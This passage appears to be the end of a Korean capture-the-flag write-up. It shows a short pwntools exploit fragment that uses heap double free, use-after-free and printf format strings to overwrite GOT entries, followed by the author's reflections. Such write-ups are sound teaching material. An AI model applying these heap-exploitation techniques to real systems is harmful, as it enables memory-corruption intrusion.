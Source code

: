 ```python
name("cccc") # 53n
name(p64(heap+0x40)*2 + p64(heap + 0xa0) + "\x01\x00\x00\x00") 
p()

name("aa")
p()

t.interactive()
```

삐걱삐걱 거렸던건 처음 double free때 count를 2로 설정해서 포맷스트링을 연속으로 하려고했는데 그 후에 double free가 잘안되어서.. item을 free하고 name을 써서 uaf로 값을 쓰는거라 포인터가 많이 꼬이게 되는듯.. 이것도 역시나 printf를 사용했다! 그래도 편했던건 got를 덮을때 상위 4바이트는 똑같이 때문에 하위 4바이트만 해주면 된다는점? 

(@shpik님의 도움을 많이 받았다! 감사합니다!)
